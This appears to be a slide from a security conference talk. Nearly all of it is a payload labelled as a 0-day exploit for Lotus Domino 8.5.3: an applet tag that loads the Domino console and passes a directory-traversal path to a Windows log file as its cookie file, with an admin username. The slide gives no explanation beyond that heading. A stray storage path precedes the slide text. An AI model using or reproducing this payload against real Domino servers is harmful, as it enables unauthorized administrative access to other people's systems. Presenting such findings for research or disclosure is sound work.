

35
# 0-day exploit (tested on 8.5.3)
<applet name = "DominoConsole"
code = "lotus.domino.console.DominoConsoleApplet.class"
codebase = "http://127.0.0.1/domjava/"
archive = "dconsole.jar"
width = "100%"
height = "99%“>

<PARAM NAME="debug" VALUE="true">
<PARAM NAME="port" VALUE="2050">
<PARAM NAME="useraddress" VALUE="http://twitter/asintsov">
<PARAM NAME="username" VALUE="admin">
<PARAM NAME="cookiefile" VALUE="\..\..\..\windows\system32\logfiles\httperr\httperr1.log">
<PARAM NAME="cookievalue" VALUE="pass">
<PARAM NAME="onLoad" VALUE="onLoadConsole">
</applet>